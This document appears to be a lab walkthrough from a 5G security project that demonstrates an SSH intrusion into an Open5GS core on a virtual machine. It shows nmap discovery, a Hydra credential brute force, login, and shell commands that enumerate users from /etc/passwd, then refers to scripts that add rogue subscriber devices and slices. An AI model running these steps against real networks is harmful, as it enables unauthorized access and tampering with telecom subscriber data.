 # SSH Intruision

In this example the core network (running on 10.0.2.4) has an ssh server running to give admins remote access. The goal is for an attacker to discover this server, get access, and adjust the registered User epuipments as they like.

## Step One - Discovery

First the SSH server has to be discovered, this will be done with [Nmap](https://nmap.org/).
``` console
user@ue:~$ sudo nmap -p ssh 10.0.2.4 #check ssh
```
Resulting in the output:
``` console
Starting Nmap 7.80 ( https://nmap.org ) at 2022-11-28 16:10 CET
Nmap scan report for 10.0.2.4
Host is up (0.00068s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 08:00:27:A1:1D:E8 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

## Step Two - Bruteforce

To connect to the server we need the login information of a user. For this we will use [Hydra](https://www.kali.org/tools/hydra/) which uses the list of most common passwords and usernames to try to find functioning pair of login data.
``` console
user@ue:~$ hydra -I -L ../Lists/Username_list.txt -P ../Lists/Password_list.txt 10.0.2.4 ssh -t 4
```
Resulting in the output:
``` console
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-28 16:10:17
[DATA] max 4 tasks per 1 server, overall 4 tasks, 374 login tries (l:17/p:22), ~94 tries per task
[DATA] attacking ssh://10.0.2.4:22/
[22][ssh] host: 10.0.2.4   login: admin   password: admin
[STATUS] 66.00 tries/min, 66 tries in 00:01h, 308 to do in 00:05h, 4 active
[STATUS] 47.33 tries/min, 142 tries in 00:03h, 232 to do in 00:05h, 4 active
[STATUS] 41.29 tries/min, 289 tries in 00:07h, 85 to do in 00:03h, 4 active
[STATUS] 41.12 tries/min, 329 tries in 00:08h, 45 to do in 00:02h, 4 active
[STATUS] 40.56 tries/min, 365 tries in 00:09h, 9 to do in 00:01h, 4 active
1 of 1 target successfully completed, 1 valid password found
```
## Step Three - Access

Now that we have access to the server we log in useing the password and username we found in the above step.
``` console
user@ue:~$ ssh admin@10.0.2.4
```

## Step Four - Poking about

Now that we are in the machine, we want to check where we can find core services running also if there might be other users on the machine.
``` console
admin@core:~$ otheruser=$(grep -w -v -e "nologin" -e "bin/false" -e "admin" -e "root" -e "sync" /etc/passwd | cut -d ":" -f 1)
admin@core:~$ echo "there is another user:  ${otheruser}"
admin@core:~$ path_to_open_5gs=$(find / -type d -name "open5gs" | head -n 1)
admin@core:~$ echo ${path_to_open_5gs}
admin@core:~$ cd ${path_to_open_5gs}
```

Once we have the path of Open5gs we can use the python API to delete and or add subscribed UE's. Surprisngly for this we will not need the login data that is needed to do the same from the web front end. To see the procces for that please refer to files [create_rogue_ue.sh](./create_rogue_ue.sh) and [delete_rogue_ue.sh](./delete_rogue_ue.sh)

## Step Five - Put it all together

To do all the following:

1. Scan for an ssh server.
2. Brutforce login.
3. Add a rogue UE with a Rogue Slice in the core.
4. Connect that rogue UE to the core. (in the works)
5. Delete the rogue UE and slice.

run the following:

```console
user@ue:~$ ./ssh_rogue.sh
```

